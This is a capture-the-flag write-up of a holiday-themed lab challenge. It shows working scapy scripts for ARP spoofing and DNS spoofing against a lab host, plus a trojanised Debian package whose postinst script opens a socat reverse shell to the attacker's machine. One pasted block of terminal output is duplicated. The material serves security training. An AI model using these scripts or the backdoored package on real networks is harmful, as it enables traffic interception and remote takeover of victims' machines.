


9) ARP Shenanigans
difficulty 🎄🎄🎄🎄
The Objective
Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?
Chat with Alabaster Snowball
After helping Alabaster Snowball with the Scapy Practice challenge the following conversation ensues.
Oh, I see the Scapy Present Packet Prepper has already been completed!
Now you can help me get access to this machine.
It seems that some interloper here at the North Pole has taken control of the host.
We need to regain access to some important documents associated with Kringle Castle.
Maybe we should try a machine-in-the-middle attack?
That could give us access to manipulate DNS responses.
But we'll still need to cook up something to change the HTTP response.
I'm sure glad you're here Santa.
Hints Courtesy Alabaster Snowball
Sniffy
Jack Frost must have gotten malware on our host at 10.6.6.35 because we can no longer access it. Try sniffing the eth0 interface using tcpdump -nni eth0 to see if you can view any traffic from that host.
Spoofy
The host is performing an ARP request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in /home/guest/scripts.
Resolvy
Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof. Let's return a DNS response resolving the request to our IP.
Embedy
The malware on the host does an HTTP request for a .deb package. Maybe we can get command line access by sending it a command in a customized .deb file
Sniff
let's sniff the eth0 interface using tcpdump. We see ARP traffic from host 10.6.6.35. The IP address of our host is 10.6.0.3 but perphaps we can pretend to be 10.6.6.53?
guest@e41e2320b206:~$ tcpdump -nni eth0
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
17:17:20.208002 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:17:21.243912 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:17:21.827077 IP6 fe80::f045:66ff:fe35:fcee > ff02::2: ICMP6, router solicitation, length 16
17:17:22.275888 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:17:23.315873 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:17:24.347884 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
^C
6 packets captured
6 packets received by filter
0 packets dropped by kernel
guest@e41e2320b206:~$ ifconfig
eth0: flags=4419<UP,BROADCAST,RUNNING,PROMISC,MULTICAST> mtu 1500
inet 10.6.0.3 netmask 255.255.0.0 broadcast 10.6.255.255
ether 02:42:0a:06:00:03 txqueuelen 0 (Ethernet)
RX packets 61 bytes 2910 (2.9 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
loop txqueuelen 1000 (Local Loopback)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
We can carry out an ARP spoof attack with the help of /home/guest/scripts/arp_resp.py.
guest@e41e2320b206:~/scripts$ cat arp_resp.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
def handle_arp_packets(packet):
# if arp request, then we need to fill this out to send back our mac as the response
if ARP in packet and packet[ARP].op == 1:
ether_resp = Ether(dst="SOMEMACHERE", type=0x806, src="SOMEMACHERE")
arp_response = ARP(pdst="SOMEMACHERE")
arp_response.op = 99999
arp_response.plen = 99999
arp_response.hwlen = 99999
arp_response.ptype = 99999
arp_response.hwtype = 99999
arp_response.hwsrc = "SOMEVALUEHERE"
arp_response.psrc = "SOMEVALUEHERE"
arp_response.hwdst = "SOMEVALUEHERE"
arp_response.pdst = "SOMEVALUEHERE"
response = ether_resp/arp_response
sendp(response, iface="eth0")
def main():
# We only want arp requests
berkeley_packet_filter = "(arp[6:2] = 1)"
# sniffing for one packet that will be sent to a function, while storing none
sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)
if __name__ == "__main__":
main()
Let's analyse the ARP packets sent by 10.6.6.35 using scapy and modify the script accordingly.
guest@e41e2320b206:~$ tcpdump -nni eth0 -w sniff.pcap
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
^C3 packets captured
4 packets received by filter
0 packets dropped by kernel
guest@e41e2320b206:~$ which scapy
/usr/local/bin/scapy
guest@e41e2320b206:~$ /usr/local/bin/scapy
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
INFO: No IPv6 support in kernel
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.
aSPY//YASa
apyyyyCY//////////YCa |
sY//////YSpcs scpCY//Pp | Welcome to Scapy
ayp ayyyyyyySCP//Pp syY//C | Version 2.4.4
AYAsAYYYYYYYY///Ps cY//S |
pCCCCY//p cSSps y//Y | https://github.com/secdev/scapy
SPPPP///a pP///AC//Y |
A//A cyP////C | Have fun!
p///Ac sC///a |
P////YCpc A//A | Craft packets like I craft my beer.
scccccp///pSP///p p//Y | -- Jean De Clerck
sY/////////y caa S//P |
cayCyayP//Ya pY/Ya
sY/PsY////YCc aC//Yp
sc sccaCY//PCypaapyCP//YSs
spCPY//////YPSps
ccaacs
>>> PACKETS = rdpcap("/home/guest/sniff.pcap")
>>> PACKETS.show()
0000 Ether / ARP who has 10.6.6.53 says 10.6.6.35
0001 Ether / ARP who has 10.6.6.53 says 10.6.6.35
0002 Ether / ARP who has 10.6.6.53 says 10.6.6.35
>>> PACKETS[0]
<Ether dst=ff:ff:ff:ff:ff:ff src=4c:24:57:ab:ed:84 type=ARP |<ARP hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=who-has hwsrc=4c:24:57:ab:ed:84 psrc=10.6.6.35 hwdst=00:00:00:00:00
:00 pdst=10.6.6.53 |>>
the modifications are as follows

The modified script is as follows
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
def handle_arp_packets(packet):
# if arp request, then we need to fill this out to send back our mac as the response
if ARP in packet and packet[ARP].op == 1:
ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src=macaddr)
arp_response = ARP(pdst="10.6.6.35")
arp_response.op = 2
arp_response.plen = 4
arp_response.hwlen = 6
arp_response.ptype = "IPv4"
arp_response.hwtype = 1
arp_response.hwsrc = macaddr
arp_response.psrc = "10.6.6.53"
arp_response.hwdst = "4c:24:57:ab:ed:84"
arp_response.pdst = "10.6.6.35"
response = ether_resp/arp_response
sendp(response, iface="eth0")
def main():
# We only want arp requests
berkeley_packet_filter = "(arp[6:2] = 1)"
# sniffing for one packet that will be sent to a function, while storing none
sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=0)
if __name__ == "__main__":
main()
Let's run our modified script and sniff packets on eth0 again to check if our ARP spoof worked.
guest@e41e2320b206:~$ tcpdump -nni eth0 -w arp_spoof.pcap
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
^C9 packets captured
12 packets received by filter
0 packets dropped by kernel
Opening up arp_spoof.pcap with scapy we see that our ARP spoof worked and we are getting DNS packets now.
guest@e41e2320b206:~$ /usr/local/bin/scapy
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
INFO: No IPv6 support in kernel
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.
aSPY//YASa
apyyyyCY//////////YCa |
sY//////YSpcs scpCY//Pp | Welcome to Scapy
ayp ayyyyyyySCP//Pp syY//C | Version 2.4.4
AYAsAYYYYYYYY///Ps cY//S |
pCCCCY//p cSSps y//Y | https://github.com/secdev/scapy
SPPPP///a pP///AC//Y |
A//A cyP////C | Have fun!
p///Ac sC///a |
P////YCpc A//A | Craft packets like it is your last
scccccp///pSP///p p//Y | day on earth.
sY/////////y caa S//P | -- Lao-Tze
cayCyayP//Ya pY/Ya |
sY/PsY////YCc aC//Yp
sc sccaCY//PCypaapyCP//YSs
spCPY//////YPSps
ccaacs
>>> PACKETS = rdpcap("/home/guest/arp_spoof.pcap")
>>> PACKETS.show()
0000 Ether / ARP who has 10.6.6.53 says 10.6.6.35
0001 Ether / ARP is at 02:42:0a:06:00:03 says 10.6.6.53
0002 Ether / IP / UDP / DNS Qry "b'ftp.osuosl.org.'"
0003 Ether / ARP who has 10.6.6.53 says 10.6.6.35
0004 Ether / ARP is at 02:42:0a:06:00:03 says 10.6.6.53
0005 Ether / IP / UDP / DNS Qry "b'ftp.osuosl.org.'"
0006 Ether / ARP who has 10.6.6.53 says 10.6.6.35
0007 Ether / ARP is at 02:42:0a:06:00:03 says 10.6.6.53
0008 Ether / IP / UDP / DNS Qry "b'ftp.osuosl.org.'"
>>> PACKETS[2]
<Ether dst=02:42:0a:06:00:03 src=4c:24:57:ab:ed:84 type=IPv4 |<IP version=4 ihl=5 tos=0x0 len=60 id=1 flags= frag=0 ttl=64 proto=udp chksum=0x5a4d src=10.6.6.35 dst=10.6.6.5
3 |<UDP sport=38919 dport=domain len=40 chksum=0xa256 |<DNS id=0 qr=0 opcode=QUERY aa=0 tc=0 rd=1 ra=0 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=0 nscount=0 arcount=0 qd=<DNS
QR qname='ftp.osuosl.org.' qtype=A qclass=IN |> an=None ns=None ar=None |>>>>
Looks like the host is trying to resolve the domain ftp.osuosl.org. We can play the role of the resolver here by way of a DNS spoof attack and supply a DNS response containing a mapping of ftp.osuosl.org to any IP of our choice. We will choose to map ftp.osuos1.org to our own IP address 10.6.0.3.
We can carry out an ARP spoof attack with the help of the script /home/guest/scripts/dns_resp.py.
guest@e41e2320b206:~/scripts$ cat dns_resp.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.1.10"
def handle_dns_request(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
eth = Ether(src="00:00:00:00:00:00", dst="00:00:00:00:00:00") # need to replace mac addresses
ip = IP(dst="0.0.0.0", src="0.0.0.0") # need to replace IP addresses
udp = UDP(dport=99999, sport=99999) # need to replace ports
dns = DNS(
# MISSING DNS RESPONSE LAYER VALUES
)
dns_response = eth / ip / udp / dns
sendp(dns_response, iface="eth0")
def main():
berkeley_packet_filter = " and ".join( [
"udp dst port 53", # dns
"udp[10] & 0x80 = 0", # dns request
"dst host {}".format(ipaddr_we_arp_spoofed), # destination ip we had spoofed (not our real ip)
"ether dst host {}".format(macaddr) # our macaddress since we spoofed the ip to our mac
] )
# sniff the eth0 int without storing packets in memory and stopping after one dns request
sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)
if __name__ == "__main__":
main()
We need to modify the script as follows

The modified script is as follows
guest@e41e2320b206:~/scripts$ cat our_dns_resp.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"
def handle_dns_request(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
eth = Ether(src=macaddr, dst="4c:24:57:ab:ed:84") # need to replace mac addresses
ip = IP(dst="10.6.6.35", src=ipaddr_we_arp_spoofed) # need to replace IP addresses
udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport) # need to replace ports
dns = DNS(id=packet[DNS].id, qd=packet[DNS].qd, qr=1,an=DNSRR(rrname=packet[DNS].qd.qname, ttl=10, rdata="10.6.0.3"))
dns_response = eth / ip / udp / dns
sendp(dns_response, iface="eth0")
def main():
berkeley_packet_filter = " and ".join( [
"udp dst port 53", # dns
"udp[10] & 0x80 = 0", # dns request
"dst host {}".format(ipaddr_we_arp_spoofed), # destination ip we had spoofed (not our real ip)
"ether dst host {}".format(macaddr) # our macaddress since we spoofed the ip to our mac
] )
# sniff the eth0 int without storing packets in memory and stopping after one dns request
sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=0)
if __name__ == "__main__":
main()
Now with our our_arp_resp.py script running, let's additionally run our_dns_resp.py as well. Let's sniff packets on eth0 interface to check if our DNS spoof worked.
guest@e41e2320b206:~$ tcpdump -nni eth0 -w dns_spoof.pcap
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
^C84 packets captured
103 packets received by filter
0 packets dropped by kernel
guest@e41e2320b206:~$ /usr/local/bin/scapy
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
INFO: No IPv6 support in kernel
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.
aSPY//YASa
apyyyyCY//////////YCa |
sY//////YSpcs scpCY//Pp | Welcome to Scapy
ayp ayyyyyyySCP//Pp syY//C | Version 2.4.4
AYAsAYYYYYYYY///Ps cY//S |
pCCCCY//p cSSps y//Y | https://github.com/secdev/scapy
SPPPP///a pP///AC//Y |
A//A cyP////C | Have fun!
p///Ac sC///a |
P////YCpc A//A | What is dead may never die!
scccccp///pSP///p p//Y | -- Python 2
sY/////////y caa S//P |
cayCyayP//Ya pY/Ya
sY/PsY////YCc aC//Yp
sc sccaCY//PCypaapyCP//YSs
spCPY//////YPSps
ccaacs
>>> PACKETS = rdpcap("/home/guest/dns_spoof.pcap") guest@e41e2320b206:~$ tcpdump -nni eth0 -w dns_spoof.pcap
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
^C84 packets captured
103 packets received by filter
0 packets dropped by kernel
guest@e41e2320b206:~$ /usr/local/bin/scapy
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
INFO: No IPv6 support in kernel
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.
aSPY//YASa
apyyyyCY//////////YCa |
sY//////YSpcs scpCY//Pp | Welcome to Scapy
ayp ayyyyyyySCP//Pp syY//C | Version 2.4.4
AYAsAYYYYYYYY///Ps cY//S |
pCCCCY//p cSSps y//Y | https://github.com/secdev/scapy
SPPPP///a pP///AC//Y |
A//A cyP////C | Have fun!
p///Ac sC///a |
P////YCpc A//A | What is dead may never die!
scccccp///pSP///p p//Y | -- Python 2
sY/////////y caa S//P |
cayCyayP//Ya pY/Ya
sY/PsY////YCc aC//Yp
sc sccaCY//PCypaapyCP//YSs
spCPY//////YPSps
ccaacs
>>> PACKETS = rdpcap("/home/guest/dns_spoof.pcap")
>>> PACKETS.show()
0063 Ether / IP / TCP 10.6.0.3:47554 > 10.6.6.35:64352 S
0064 Ether / IP / TCP 10.6.6.35:64352 > 10.6.0.3:47554 SA
0065 Ether / IP / TCP 10.6.0.3:47554 > 10.6.6.35:64352 A
0066 Ether / IP / TCP 10.6.0.3:47554 > 10.6.6.35:64352 PA / Raw
0067 Ether / IP / TCP 10.6.6.35:64352 > 10.6.0.3:47554 A
0068 Ether / IP / TCP 10.6.6.35:64352 > 10.6.0.3:47554 PA / Raw
0069 Ether / IP / TCP 10.6.0.3:47554 > 10.6.6.35:64352 A
0070 Ether / IP / TCP 10.6.0.3:47554 > 10.6.6.35:64352 PA / Raw
0071 Ether / IP / TCP 10.6.0.3:47554 > 10.6.6.35:64352 PA / Raw
0072 Ether / IP / TCP 10.6.6.35:64352 > 10.6.0.3:47554 PA / Raw
0073 Ether / IP / TCP 10.6.6.35:32800 > 10.6.0.3:http S
0074 Ether / IP / TCP 10.6.0.3:http > 10.6.6.35:32800 RA
0075 Ether / IP / TCP 10.6.6.35:64352 > 10.6.0.3:47554 FPA / Raw
0076 Ether / IP / TCP 10.6.0.3:47554 > 10.6.6.35:64352 A
0077 Ether / IP / TCP 10.6.0.3:47554 > 10.6.6.35:64352 FA
0078 Ether / IP / TCP 10.6.6.35:64352 > 10.6.0.3:47554 A
Looks like our DNS Spoof worked! The below packet is particularly interesting. Looks like 10.6.6.35 is trying to send an HTTP request to port 80.
0073 Ether / IP / TCP 10.6.6.35:32800 > 10.6.0.3:http S
Let' spoof an http server on port 80. We can do this by running the command python3 -m http.server 80.Looks like the malware running on 10.6.6.35 is trying to fetch /pub/jfrost/backdoor/suriv_amd64.deb.
guest@e41e2320b206:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [10/Jan/2021 19:14:14] code 404, message File not found
10.6.6.35 - - [10/Jan/2021 19:14:14] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
10.6.6.35 - - [10/Jan/2021 19:14:15] code 404, message File not found
10.6.6.35 - - [10/Jan/2021 19:14:15] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
10.6.6.35 - - [10/Jan/2021 19:14:16] code 404, message File not found
10.6.6.35 - - [10/Jan/2021 19:14:16] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
Let's make this deb file available. However we will customise this deb file so that when the host installs it a reverse shell would be spawned and we can obtain command line access.
We can choose any of the deb files available in /home/guest/debs to customise.
guest@8238d08d5d09:~/debs$ ls
gedit-common_3.36.1-1_all.deb nano_4.8-1ubuntu1_amd64.deb nmap_7.80+dfsg1-2build1_amd64.deb unzip_6.0-25ubuntu1_amd64.deb
golang-github-huandu-xstrings-dev_1.2.1-1_all.deb netcat-traditional_1.10-41.1ubuntu1_amd64.deb socat_1.7.3.3-2_amd64.deb
We get a clue on how to customise a deb file from hint 4. We need to
- extract the deb using command
dpkg -x <file.deb> <directory> - create a directory called DEBIAN in it which contains two files -control and postinst
- rebuild the deb using command
dpkg-deb --build <directory>
The postinst file will contain the commands to be executed. In our case we will include a command to spawn a Socat reverse shell.
guest@f9ce1b9af4a1:~/debs$ dpkg -x nmap_7.80+dfsg1-2build1_amd64.deb work
guest@f9ce1b9af4a1:~/debs$ mkdir -p work/DEBIAN
guest@f9ce1b9af4a1:~/debs$ touch work/DEBIAN/control
guest@f9ce1b9af4a1:~/debs$ touch work/DEBIAN/postinst
guest@f9ce1b9af4a1:~/debs$ vi work/DEBIAN/control
guest@f9ce1b9af4a1:~/debs$ cat work/DEBIAN/control
Package: nmap7
Version: 7.80+dfsg1-2
Architecture: any
Maintainer: lel <packages@qa.debian.org>
Description: must-install awesome tool
guest@f9ce1b9af4a1:~/debs$ vi work/DEBIAN/postinst
guest@f9ce1b9af4a1:~/debs$ cat work/DEBIAN/postinst
RHOST=10.6.0.3
RPORT=4444
socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
guest@f9ce1b9af4a1:~/debs$ dpkg-deb --build work/
dpkg-deb: error: maintainer script 'postinst' has bad permissions 664 (must be >=0555 and <=0775)
guest@f9ce1b9af4a1:~/debs$ chmod 775 work/DEBIAN/postinst
guest@f9ce1b9af4a1:~/debs$ dpkg-deb --build work/
dpkg-deb: building package 'nmap7' in 'work.deb'.
Now let's set up a Socat listener to receive the shell.
socat file:`tty`,raw,echo=0 tcp-listen:4444
Let's rename the deb file and serve it. Make sure the hierarchy of directories is correct.
guest@f9ce1b9af4a1:~/debs$ mkdir -p ./pub/jfrost/backdoor/
guest@f9ce1b9af4a1:~/debs$ cp work.deb suriv_amd64.deb
guest@f9ce1b9af4a1:~/debs$ cp suriv_amd64.deb ./pub/jfrost/backdoor/
guest@f9ce1b9af4a1:~/debs$ python3 -m http.server 80
We caught the reverse shell!
guest@f9ce1b9af4a1:~$ socat file:`tty`,raw,echo=0 tcp-listen:4444
/bin/sh: 0: can't access tty; job control turned off
guest@f9ce1b9af4a1:~$ socat file:`tty`,raw,echo=0 tcp-listen:4444
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
bash: /root/.bashrc: Permission denied
jfrost@e0b14eab16d0:/$ ls
NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt etc lib64 opt sbin usr
bin home libx32 proc srv var
boot lib media root sys
dev lib32 mnt run tmp
On opening the file NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt and reading it we come across the following paragraph.
RESOLUTIONS: The board took up final discussions of the plans presented last year for the expansion of Santa’s Castle to include new courtyard, additional floors, elevator, roughly tripling the size of the current castle. Architect Ms. Pepper reviewed the planned changes and engineering reports. Chairman Frost noted, “These changes will put a heavy toll on the infrastructure of the North Pole.” Mr. Krampus replied, “The infrastructure has already been expanded to handle it quite easily.” Chairman Frost then noted, “But the additional traffic will be a burden on local residents.” Dolly explained traffic projections were all in alignment with existing roadways. Chairman Frost then exclaimed, “But with all the attention focused on Santa and his castle, how will people ever come to refer to the North Pole as ‘The Frostiest Place on Earth?’” Mr. In-the-Box pointed out that new tourist-friendly taglines are always under consideration by the North Pole Chamber of Commerce, and are not a matter for this Board. Mrs. Nature made a motion to approve. Seconded by Mr. Cornelius. Tanta Kringle recused herself from the vote given her adoption of Kris Kringle as a son early in his life.
Rejoice
We found that Tanta Kringle recused herself from the vote described on the document!
Answer
Tanta Kringle